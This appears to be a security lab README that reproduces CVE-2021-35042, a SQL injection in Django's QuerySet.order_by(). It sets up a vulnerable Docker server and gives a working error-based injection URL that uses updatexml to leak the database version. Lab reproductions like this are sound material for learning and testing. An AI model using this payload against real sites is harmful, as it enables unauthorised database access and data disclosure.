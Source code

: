 # Django QuerySet.order_by() SQL Injection (CVE-2021-35042)

[中文版本(Chinese version)](README.zh-cn.md)

Django is a high-level Python web framework that encourages rapid development and clean, pragmatic design.

Django released a security update on July 1, 2021, which fixes a SQL injection vulnerability in the `QuerySet.order_by()` function. This vulnerability affects Django versions before 3.2.5, 3.1.13.

The vulnerability can be exploited when a user has control over the input passed to the order_by() function, allowing for SQL injection at the expected column position.

References:

- <https://www.djangoproject.com/weblog/2021/jul/01/security-releases/>

## Environment Setup

Execute the following command to compile and start a vulnerable Django 3.2.4 server:

```
docker compose build
docker compose up -d
```

After the server is started, you can access the Django home page at `http://your-ip:8000`.

## Vulnerability Reproduction

First, visit `http://your-ip:8000/vuln/` and add the parameter `order=-id` to see the data sorted by ID in descending order:

![](1.png)

To exploit the SQL injection vulnerability, modify the `order` parameter with the following payload, where `vuln_collection` is the model name:

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

The SQL error message will be displayed, revealing database information through the error-based SQL injection:

![](2.png)
